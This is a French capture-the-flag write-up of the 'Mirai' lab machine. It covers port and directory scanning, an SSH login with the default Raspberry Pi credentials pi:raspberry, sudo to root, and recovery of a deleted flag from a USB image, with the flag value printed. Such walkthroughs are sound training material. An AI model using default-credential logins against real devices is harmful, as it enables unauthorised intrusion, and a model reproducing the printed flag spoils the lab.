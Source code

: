 # Mirai [Linux] Easy

# — 1. Enumeration —

## Nmap

`nmap -A -sS -sV 10.10.10.48`

```bash
22/tcp   open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
53/tcp   open  domain  dnsmasq 2.76
|_  bind.version: dnsmasq-2.76
80/tcp   open  http    lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
1216/tcp open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
32400/tcp open  http    Plex Media Server httpd
|_http-favicon: Plex
| HTTP/1.1 401 Unauthorized\x0D
|_  Server returned status 401 but no WWW-Authenticate header.
|_http-cors: HEAD GET POST PUT DELETE OPTIONS
|_http-title: Unauthorized
32469/tcp open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
```

## FFuf

```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.48/FUZZ                                                                        

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.48/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

admin                   [Status: 301, Size: 0, Words: 1, Lines: 1]
versions                [Status: 200, Size: 18, Words: 1, Lines: 1]
:: Progress: [220560/220560] :: Job [1/1] :: 2443 req/sec :: Duration: [0:01:55] :: Errors: 0 ::
```

/admin on Charge longtemps avant de tomber sur un Pi-hole

/version on récupéré un fichier avec dedans 

```bash
,v3.1.4,v3.1,v2.10
```

# — 2. Pi-Hole Exploitation—

Si on recherche des info à propos de pi-hole on trouve que le mot de passe du port ssh par défaut et l’utilisateur son :`pi:raspberry`

[https://discourse.pi-hole.net/t/password-for-pre-configured-pi-hole/13629/4](https://discourse.pi-hole.net/t/password-for-pre-configured-pi-hole/13629/4)

`ssh pi:10.10.10.48`

Connecter en tant que pi nous pouvons faire une énumération basique de notre user et nous sommes déjà admin nous pouvons donc nous mettre en root avec sudo su et aller chercher le root.txt

# — 3. root.txt —

Malheureusement le root.txt ne contient pas le flag mais ceci :

```bash
I lost my original root.txt! I think I may have a backup on my USB stick...
```

On liste donc les clé USB connecter avec `df -Th | grep media`

```bash
/dev/sdb ext4 8.7M 93K 7.9M 2% /media/usbstick 
```

On à obtenu le répertoire de la clé `/media/usbsitck`

Cette clé contient `damnit.txt`

```bash
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
```

Pour avoir le flag nous pouvons le faire de 2 manière :

**1 Strings**

`sudo strings /dev/sdb`

```bash
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
/media/usbstick
2]8^
lost+found
root.txt
damnit.txt
>r &
3d3e483143ff12ec505d026fa13e020b
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?
-James
```

**2 Image et Recover**

La commande `sudo dcfldd if=/dev/sdb of=/home/pi/usb.dd` créé une copie de la clé USB et la met sur le dossier de notre user maintenant nous allons nous envoyer ces fichier sur notre pc `scp [pi@10.10.10.48](mailto:pi@10.10.10.48):/home/pi/usb.dd /home/kali` pour extraire les données nous pouvons le faire avec plusieurs outils comme testdisk. On va pouvoir voir que le fichier à été supprimé et ne possède 0 octet.

En sachant ceci nous pouvons lister les strings de l’image pour voir les chaine de caractère ou regarder l’image avec un éditeur d’hexadécimal. 

![Untitled](Mirai%20%5BLinux%5D%20Easy%2096562ea34275498eaa1f259eae8d6a97/Untitled.png)

## — Lien et Ressources —

[https://linoxide.com/how-to-list-usb-devices-in-linux/](https://linoxide.com/how-to-list-usb-devices-in-linux/)

[https://www.it-connect.fr/chapitres/transfert-de-fichier-via-ssh/](https://www.it-connect.fr/chapitres/transfert-de-fichier-via-ssh/)

[https://www.tec4tric.com/linux/dev-sda-in-linux](https://www.tec4tric.com/linux/dev-sda-in-linux)